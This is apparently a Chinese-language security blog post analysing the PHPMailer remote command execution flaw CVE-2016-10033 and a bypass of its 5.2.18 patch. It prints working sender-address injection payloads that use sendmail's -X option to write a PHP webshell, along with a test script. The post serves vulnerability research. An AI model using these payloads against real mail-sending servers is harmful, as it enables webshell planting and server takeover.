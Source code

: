 title: phpmailer RCE 分析
date: 2016-12-28 13:31:31
tags: php
categories: H-blog
---

最近报了个CVE-2016-10033, 是phpmailer 远程命令执行漏洞, 从昨天开始, 分析了一波

<!--more-->

## CVE-2016-10033

首先来看最早的版本, 环境和exp之类的可见<https://github.com/opsxcq/exploit-CVE-2016-10033>

触发该漏洞还有一系列要求:

> php version < 5.2.0
> no pcre
> phpmailer < 5.2.18
> php safe_mode = false

看着这一些列限制感觉这洞挺鸡肋的, 尤其是上面两个限制, php版本小于5.2, 已经很少见了, 默认情况下php是会编译安装pcre扩展的

接下来仔细分析下该漏洞, 看exp可知, 该漏洞和前段时间的[Roundcube 1.2.2 远程命令执行漏洞](http://blog.knownsec.com/2016/12/roundcube-1-2-2-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/) 相似, 都是由于php的mail函数的第5个参数的问题.

然后开始定位:
代码位于文件class.phpmailer.php
![mail1](http://qn.lazysheep.cc/img/mail1.png)

从这里就可以看出上述第四个要求的原因, 如果开启了safe_mode, 则不会向mail函数传递第5个参数

接下来跟踪变量`$params`
![mail2](http://qn.lazysheep.cc/img/mail2.png)

变量`$params`来自于`$this->Sender`

继续跟踪:
![mail3](http://qn.lazysheep.cc/img/mail3.png)

变量`$this->Sender`是通过`setFrom`函数的第一个参数进行设置的

在之前, 函数对`$address`是进行有效性判断的, 接下来进入这个地址有效性判断的函数中去看看

![mail4](http://qn.lazysheep.cc/img/mail4.png)

从这段代码我们能知道, 如果`php version < 5.2.0` and `no pcre`, 则`$patternselect = 'noregex'`

继续往下看
![mail5](http://qn.lazysheep.cc/img/mail5.png)

当`$patternselect = 'noregex'`时, 这判断太好过了, 差不多只要字符串中含有`@`, 就能返回true

这样mail函数的第5个参数`$params`, 就能随意构造了

接下来说说这类漏洞的原理

php的mail函数默认情况下是通过执行sendmail命令(说是默认, 但为啥我在搭环境的时候php.ini中不设置`sendmail_path=/usr/sbin/sendmail -t -i` 就跑不起来?)

第5个参数`$params`也是sendmail的参数(可参考man sendmail)

这时候看exp就很好理解了:

```
vulnerables@ -OQueueDirectory=/tmp -X/www/backdoor.php
# -X 参数, 把日志写到/www/backdoor.php文件中
```

至于另一个-O参数, 在某些环境下需要
比如我搭的环境, 用的是debian, 默认情况下会出现`can not chdir(/var/spool/mqueue-client/): Permission denied`, 然后问了下p神, 他搭的环境用的是ubuntu, 不会报这个错误

这是由于权限设置的问题, 研究了下
```
$ ls -lF /var/spool
.....
drwxrws---  2 smmsp smmsp 4096 Dec 28 14:24 mqueue-client/'

$ chmod 777 /var/spool/mqueue-client
```

就不会出现这个错误了, 但是这就不是默认环境, 而是配置后的环境

之后发现如果加上`-OQueueDirectory=/tmp` 参数就不会报这个错误了, 猜测应该是默认情况下`QueueDirectory=/var/spool/mqueue-client`

总结下, 日志文件写到一个php文件中, 而mail发送的信息中含有php代码, 那么这不就可以形成webshell了么.

之后尝试了下能不能通过反引号进行命令执行, 没成功.

## bypass pcre8 正则

最初的版本太鸡肋了, 限制太多, 之后研究发现, 如果能bypass prce8 的正则, 那么限制条件不就可以减为:

> phpmailer < 5.2.18
> php safe_mode = false

如果这样, 那么作用就大了, 昨天p神就已经发表了他的bypass payload(这里膜一下, 速度太快了, 我才刚开始研究, 他就出结果了)

可以用这段代码来测试自己的payload:
```
<?php
require 'src/PHPMailerAutoload.php';
$mail = new PHPMailer;

$email = $_GET['t'];
$r = $mail->setFrom($email, 'Vulnerable Server');
var_dump($r);
var_dump($mail->Sender);

?>
```

昨晚我研究出了两张种bypass方案:

> a. -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com
> () -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com

再加上p神下午发的:

> a( -X/home/www/backdoor.php -OQueueDirectory=/tmp )@qq.com

然后看了下p神今天凌晨发的, 对比了下我已知的, 又多了一种

> " -X/home/www/backdoor.php -OQueueDirectory=/tmp "@qq.com


然后看了下github上的exp, 也进行了更新

> "vulnerables\" -OQueueDirectory=/tmp -X/www/backdoor.php server" @test.com

## phpmailer 5.2.19 RCE

分析完这漏洞后, 然后去分析了源码patch, 然后发现, patch并啥用

5.2.18的patch中, 唯一有用的代码是

```
$params = sprintf('-f%s', escapeshellarg($this->Sender));
```

加了一个`escapeshellarg` 进行处理, 之前的`Roundcube 1.2.2 远程命令执行漏洞` 也是用相同的方法进行处理的

但是我发现, 这个patch任然能bypass

举例其中一个payload:

> a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com

讲道理, 该payload被`escapeshellarg` 函数处理后是没问题的

```
php> var_dump(escapeshellarg("a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com"))
string(74) "'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com'"
```

然后带入sendmail
```
$ sendmail -f'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor2.php )@a.com'
Recipient names must be specified
```

发现并跑不起来, 日志文件也没成功写入

但是传入mail函数中, 却能成功写入日志文件

之后对mail.c源码进行了研究, 发现:

![mail6](http://qn.lazysheep.cc/img/mail6.png)

在mail函数中, 对参数使用`php_escape_shell_cmd`进行处理

我们可以进行测试下:

```
# test.php
<?php
$payload = "a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com";
$earg = escapeshellarg($payload);
var_dump($earg);
$ecmd = escapeshellcmd($earg);
var_dump($ecmd);
?>
```

得到:
```
$ php test.php
string(58) "'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com'"
string(62) "'a'\\''\( -OQueueDirectory=/tmp -X/tmp/backdoor.php \)@a.com\'"

$ sendmail -f'a'\\''\( -OQueueDirectory=/tmp -X/tmp/backdoor.php \)@a.com\'
```

发现sendmail能成功写入日志文件, 虽然会报一些错, 但无伤大雅, 数据能写到日志文件中

从上面我们可以得到是`escapeshellarg` 和 `escapeshellcmd`函数一起处理参数, 导致的问题

同理: Roundcube也存在该问题

## Other

之后会对各大cms进行分析, 就目前分析过的两个Joomla和Wordpress来看, 并不是特别好利用

* Joomla中有phpmailer模块, 但是实际代码中却并未使用该模块
* Wordpress实际代码中使用了该模块, 而且还是5.2.14版本的, 但是设置参数的地方只有管理员能设置, 既然是管理员了, 要getshell又何必用这中麻烦的方法

所以感觉该漏洞在我眼中目前看来只能算个中危吧, 因为并没有发现非常棒的实际利用场景

*参考*

1. <https://github.com/opsxcq/exploit-CVE-2016-10033> 
2. <https://linux.die.net/man/8/sendmail.sendmail>
3. <https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html>
4. <https://www.leavesongs.com/PENETRATION/PHPMailer-CVE-2016-10033.html>
5. <https://github.com/php/php-src/blob/452dcf12ae3376a3cdb47490c51aadb0651a2a73/ext/standard/mail.c>
6. <https://github.com/PHPMailer/PHPMailer/commit/4835657cd639fbd09afd33307cef164edf807cdc>


PS: 文章刚写完发现54分钟前有人申请cve了, <https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10045-Vuln-Patch-Bypass.html>

































